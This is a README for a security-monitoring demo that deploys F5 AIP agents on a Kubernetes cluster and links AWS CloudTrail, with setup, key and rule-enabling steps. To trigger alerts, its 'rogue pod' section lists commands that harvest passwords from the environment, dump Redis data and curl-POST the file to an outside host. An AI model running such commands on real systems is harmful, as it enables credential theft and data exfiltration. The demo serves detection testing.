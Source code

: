 XC AIP Demo with CloudTrail integration
==============================
This blueprint allows you to automatically deploy AIP agents into an existing Kubernetes cluster (k3s) running across 2 nodes in UDF. Additionally this blueprint leverages AWS cloud account to configure and integrate AWS CloudTrail with AIP automatically.

What you need to do **BEFORE starting the deployment:**
-------------------------------------------------------

## Copy AIP keys and Account ID


1. Login to F5 Distributed Cloud tenant where you would like AIP to be connected to
2. Navigate to *App Infrastructure Protection* -> **YOUR ORG (mapped NS in XC)** ->*Settings* -> *Keys*
3. Copy the following values:
    - **Deployment Key**
    - **REST API Key**
    - **Organization ID**
    - **User ID**

4. Navigate to *Settings* -> *Integrations* -> *Click on "ADD AWS INTEGRATION"
5. Copy **Account ID** value

## Populate User Tags and User-data script


1. In this UDF blueprint locate **CONFIGURE ME** Ubuntu server and click **DETAILS**
2. **Documentation** page contains User Tags where you need to define 3 tags: ORG, USER and ACCOUNT. See Description on the top of the page for instructions. **Example of User Tags:**

![tags](https://github.com/f5devcentral/aip-demo-udf/blob/main/user_tags.jpg?raw=true)

3. Navigate to **Details** page and edit **Custom Userdata** script. You need to insert **YOUR Deployment Key** and **YOUR REST API Key**. **Example of Custom Userdata script:**

![tags](https://github.com/f5devcentral/aip-demo-udf/blob/main/custom_user_data.jpg?raw=true)

## Start the deployment

Startup script will perform the following actions to integrate 3 agents (1 on each node plus 1 agent that "listens" to k8s API) and AWS CloudTrail:

 1. Gather data from env file and UDF metadata (user tags)
 2. Deploy stack using Cloudformation template
 3. Create integration on AIP side and gather External ID
 4. Update stack with AIP External ID
 5. Create CloudTrail resources in AIP

## Generating the events

There is a "rogue" pod that will be generating events. The pod uses the following commands to simulate the adversary:

```
kubectl apply -f pod.yaml
kubectl exec redis-client -- env |grep -i pass
REDISCLI_AUTH="$REDIS_PASSWORD" /usr/local/bin/redis-cli -h redis-cluster-master keys \* > my.db
curl --connect-timeout 1 -X POST -F "image=@my.db" https://f5se.com/data/db/my/1.db
```

This behavior is in line with the attacker locating redis DB and exfiltrating DB data to an arbitrary URL

## Enabling Rules

In order for the system to generate *Alerts* it is necessary to enable corresponding **Rule Sets**. Navigate to *Rules* and enable the following Rule Sets:

  1. Base Rule Set
  2. Docker Rule Set
  3. Cloud Trail Rule Set
  4. Kubernetes Rule Set

Additionally, under **RULE TYPE** select the following types and ensure all rules under these types are enabled:

  1. Cloud Trail
  2. File Integrity
  3. Host
  4. Kubernetes Audit
